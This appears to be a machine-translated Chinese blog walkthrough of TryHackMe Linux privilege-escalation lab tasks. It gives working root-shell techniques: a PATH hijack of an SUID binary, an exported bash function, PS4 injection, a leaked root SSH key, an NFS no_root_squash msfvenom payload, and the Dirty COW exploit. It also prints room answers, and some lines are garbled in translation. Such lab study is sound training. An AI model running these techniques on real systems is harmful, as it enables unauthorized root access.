# **任务 13: SUID / SGID 可执行文件-环境变量**

**由于/usr/local/bin/suid-env 可执行文件继承了用户的 PATH 环境变量，并试图在不指定绝对路径的情况下执行程序，因此可以利用该文件。**

**首先，执行该文件，注意它似乎试图启动 apache2 服务器:**

```
/usr/local/bin/suid-env
```

**在文件上运行字符串以查找可打印的字符串:**

```
strings /usr/local/bin/suid-env
```

**其中一行(“service apache2 start”)表示正在调用服务可执行文件来启动 web 服务器，但是没有使用可执行文件的完整路径(/usr/sbin/service)。**

**将位于/home/user/tools/suid/service . c 的代码编译成一个名为 service 的可执行文件。这段代码只是生成了一个 Bash shell:**

```
gcc -o service /home/user/tools/suid/service.c
```

**将当前目录(或新服务可执行文件所在的位置)添加到 PATH 变量前面，并运行 suid-env 可执行文件以获得根 shell:**

```
PATH=.:$PATH /usr/local/bin/suid-env
```

********

# **任务 14: SUID / SGID 可执行文件-滥用外壳功能(#1)**

**这非常有趣。所以在低于 4.2–048 的 bash 版本中，我们可以定义类似文件路径的函数**

****

**/usr/local/bin/suid-env2 可执行文件与/usr/local/bin/suid-env 相同，只是它使用服务可执行文件的绝对路径(/usr/sbin/service)来启动 apache2 服务器。**

**用字符串验证这一点:**

```
strings /usr/local/bin/suid-env2
```

**在 Bash 版本中<4.2–048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.**

**Verify the version of Bash installed on the Debian VM is less than 4.2–048:**

```
/bin/bash --version
```

**Create a Bash function with the name “/usr/sbin/service” that executes a new Bash shell (using -p so permissions are preserved) and export the function:**

```
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

**Run the suid-env2 executable to gain a root shell:**

```
/usr/local/bin/suid-env2
```

****

# **Task 15: SUID / SGID Executables -Abusing Shell Features (#2)**

**so, in bash versions less than 4.4 and above, we could define the PS4 variable to display an extra prompt for debugging statements in debugging mode.**

****

***注意:这在 Bash 版本 4.4 和更高版本上不起作用。***

**在调试模式下，Bash 使用环境变量 **PS4** 来显示调试语句的额外提示。**

**运行 **/usr/local/bin/suid-env2** 可执行文件，启用 bash 调试，并将 PS4 变量设置为一个嵌入式命令，这将创建/bin/bash 的 suid 版本:**

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

**使用-p 运行/tmp/rootbash 可执行文件，以获得使用 root 权限运行的 shell:**

```
/tmp/rootbash -p
```

****记得在继续之前删除/tmp/rootbash 可执行文件并退出提升的 shell，因为您稍后将在房间中再次创建该文件！****

```
rm /tmp/rootbash
exit
```

****

# **任务 16:密码和密钥-历史文件**

****

**使用密码切换到 root 用户:**

```
su root
```

# **任务 17:密码和密钥-配置文件**

**配置文件通常包含明文或其他可逆格式的密码。**

**列出用户主目录的内容:**

```
ls /home/user
```

**请注意 myvpn.ovpn 配置文件的存在。查看文件的内容:**

```
cat /home/user/myvpn.ovpn
```

**该文件应该包含对可以找到 root 用户凭据的另一个位置的引用。使用凭据切换到 root 用户:**

```
su root
```

****

****问题 1:** 您在哪个文件中找到了 root 用户的凭证？**

> *****答案:/etc/openvpn/auth.txt*****

# **任务 18:密码和密钥-SSH 密钥**

**有时，用户会备份重要文件，但却无法使用正确的权限来保护它们。**

**在系统根目录中查找隐藏的文件和目录:**

**`ls -la /`**

**请注意，似乎有一个名为**的隐藏目录。ssh** 。查看目录的内容:**

**`ls -l /.ssh`**

**注意，有一个全球可读的文件叫做 **root_key** 。对该文件的进一步检查应该表明它是一个私有 SSH 密钥。该文件的名称表明它是为 root 用户准备的。**

**将密钥复制到您的 Kali 框中(只查看 **root_key** 文件的内容并复制/粘贴密钥更容易)，并赋予它正确的权限，否则您的 SSH 客户端将拒绝使用它:**

**`chmod 600 root_key`**

**使用密钥作为根帐户登录 Debian 虚拟机(相应地更改 IP):**

**`ssh -i root_key root@10.10.10.10`**

****记得在继续之前退出根 shell！****

****

**将密钥复制到 kali linux**

********

# **任务 19 — NFS**

**通过 NFS 创建的文件继承了**远程**用户的 ID。如果用户是 root，并且启用了 root squashing，则 ID 将改为设置为“nobody”用户。**

**检查 Debian 虚拟机上的 NFS 共享配置:**

****在服务器上****

```
cat /etc/exports
```

****

**请注意， **/tmp** 共享禁用了根挤压。**

**在您的 Kali 机器上，如果您还没有以 root 用户身份运行，请切换到 root 用户:**

```
sudo su
```

**使用 Kali 的 root 用户，在您的 Kali 机器上创建一个挂载点，并挂载 **/tmp** 共享(相应地更新 IP):**

```
mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs
```

**仍然使用 Kali 的 root 用户，使用 **msfvenom** 生成一个有效载荷，并保存到挂载的共享中(这个有效载荷简单地调用/bin/bash):**

```
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
```

**仍然使用 Kali 的根用户，使文件可执行，并设置 SUID 权限:**

****在工作站上****

```
chmod +xs /tmp/nfs/shell.elf
```

****

**回到 Debian VM，作为低特权用户帐户，执行文件以获得根 shell:**

```
/tmp/shell.elf
```

****记得在继续之前退出根 shell！****

****在服务器上****

****

****问 1:** 禁用根挤压的选项名称是什么？**

> *****答案:no_root_squash*****

# **任务 20:内核漏洞**

**内核漏洞可能会使系统处于不稳定状态，这就是为什么您应该只在万不得已时才运行它们。**

**运行 **Linux 漏洞利用建议器 2** 工具来识别当前系统上潜在的内核漏洞利用:**

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

**应该列出流行的 Linux 内核漏洞“Dirty COW”。Dirty COW 的漏洞利用代码可以在**/home/user/tools/kernel-exploits/Dirty COW/c0w . c**找到。它将 SUID 文件/usr/bin/passwd 替换为一个生成 shell 的文件(在/tmp/bak 中创建了/usr/bin/passwd 的备份)。**

**编译并运行代码(注意，可能需要几分钟才能完成):**

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

**一旦攻击完成，运行/usr/bin/passwd 获得根外壳:**

```
/usr/bin/passwd
```

**记得在继续之前恢复原始的/usr/bin/passwd 文件并退出根 shell！**

```
mv /tmp/bak /usr/bin/passwd
exit
```

********

**你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)**

****

**如需更多演练，请在出发前继续关注…
…**

**访问我的其他演练:-**

**感谢您花时间阅读我的演练。
如果您觉得有帮助，请点击👏按钮👏(高达 40 倍)并分享
给有类似兴趣的人帮助！+随时欢迎反馈！**